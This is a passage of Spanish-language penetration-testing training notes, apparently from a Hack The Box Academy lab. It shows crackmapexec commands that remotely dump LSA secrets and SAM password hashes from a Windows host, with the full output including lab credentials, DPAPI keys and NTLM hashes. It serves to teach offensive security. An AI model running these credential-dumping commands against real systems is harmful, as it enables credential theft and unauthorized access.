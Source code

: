 Con acceso a credenciales con`local admin privileges`, también es posible que nos dirijamos los secretos de LSA a través de la red. Esto podría permitirnos extraer credenciales de un servicio en ejecución, tarea programada o aplicación que utiliza secretos de LSA para almacenar contraseñas.

### **Dumping LSA Secrets de forma remota**

Atacando a Sam

```
xnoxos@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsaSMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488bSMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached

```

### **Dumping Sam de forma remota**

También podemos volcar hash de la base de datos SAM de forma remota.

Atacando a Sam

```
xnoxos@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --samSMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```